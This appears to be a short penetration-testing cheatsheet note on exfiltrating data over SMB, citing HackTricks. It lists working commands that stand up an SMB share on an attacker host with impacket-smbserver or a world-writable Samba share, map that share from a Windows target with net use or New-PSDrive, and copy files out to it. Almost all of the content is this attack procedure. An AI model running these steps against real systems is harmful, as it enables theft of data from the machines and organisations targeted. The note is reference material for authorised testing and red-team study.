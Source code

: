 # Data Exfiltration Over SMB

Either [[Impacket-Cheatsheet]] - `impacket-smbserver` - beware the you are allowing Write access to your machine
```bash
impacket-smbserver -ip 10.10.10.10 sharenamehere $(pwd) -smb2support -user test -password test 
net use z: \\10.10.10.10\sharenamehere /user:test test
# Alternative with PowerShell:
New-PSDrive -Name "EXfilDisk" -PSProvider "FileSystem" -Root "\\10.10.10.10\sharenamehere"
# Then exfil 
copy $file Z:\
```

Or use Samba
```bash
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
#Add to the end of /etc/samba/smb.conf this:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
#Start samba
service smbd restart
```

## References

[HackTricks - Exfiltration](https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration#smb)